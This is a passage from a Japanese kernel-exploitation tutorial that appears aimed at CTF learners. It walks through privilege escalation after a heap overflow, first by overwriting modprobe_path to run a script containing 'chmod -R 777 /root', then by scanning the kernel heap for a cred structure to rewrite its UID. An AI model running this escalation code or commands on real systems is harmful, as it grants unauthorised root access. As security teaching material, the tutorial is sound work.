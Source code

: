 ```c

  // mov [rdx], rcx; ret;
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], val /* rcx */, addr /* rdx */);
  }
}
...
  char cmd[] = "/tmp/evil.sh";
  for (int i = 0; i < sizeof(cmd); i += 4) {
    AAW32(addr_modprobe_path + i, *(unsigned int*)&cmd[i]);
  }
```
上の例では、不明な形式の実行ファイルが実行されようとした際に`/tmp/evil.sh`が呼ばれることになります。したがって、`/tmp/evil.sh`には実行したい処理を書きます。今回は次のスクリプトを用意しました。
```sh
#!/bin/sh
chmod -R 777 /root
```
最後に適当な実行ファイルを用意して実行すれば完了です。
```c
  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
  system("chmod +x /tmp/evil.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn"); // modprobe_pathの呼び出し
```
exploitが成功すると、任意のコマンドがroot権限で実行できたことが分かります。

<center>
  <img src="img/hbof_modprobe_path.png" alt="modprobe_pathによる権限昇格" style="width:400px;">
</center>

このexploitは[ここ](exploit/heapbof-aaw.c)からダウンロードできます。

### cred構造体
[前章](stack_overflow)で説明したように、プロセスの権限は`cred`構造体で管理されています。`cred`構造体にはそのプロセスの実効ユーザーIDなどが記載されているため、自分のプロセスの`cred`構造体の各種IDをroot（=0）に書き換えれば権限昇格できます。では、どのようにして自プロセスの`cred`構造体のアドレスを取得するのでしょうか。

古いLinuxカーネルの場合、`current_task`というグローバルなシンボルがあり、ここに現在のコンテキストのプロセスの`task_struct`構造体へのポインタが記載されていました。そのため、AAR/AAWを持っているときは`task_struct`から`cred`を辿り、簡単に権限昇格できたのです。
しかし、最近のバージョンでは`current_task`はグローバルな変数としては廃止され、代わりにCPUごとの空間に保存されており、gsレジスタを使ってアクセスするようになっています。そのためプロセスの`cred`構造体を直接見つけることはできないのですが、AARを持っている時は比較的簡単に実現できます。カーネルのヒープ領域はそこまで広くないため、Kernel Exploitではヒープを全探索して`cred`構造体を見つけられます。今回ヒープのアドレスを既に知っているためこれが実現可能です。つまり、次のようなコードで権限昇格ができます。（今回は`ioctl`で1度に最大4バイト読めるので、4バイトごと調べています。）
```c
for (u64 p = heap_address; ; p += 4) {
  u32 leak = AAR_32bit(p); // AAR
  if (looks_like_cred(leak)) { // cred構造体っぽい
    memcpy(p + XXX, 0, YYY); // 実効UIDの書き換え
  }
}
```
問題はどのようにして自分のプロセスのcred構造体を見つけるかです。ここで[**task_struct構造体**](https://elixir.bootlin.com/linux/v5.15/source/include/linux/sched.h#L723)構造体のメンバを再び見てみます。
```c
```

[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。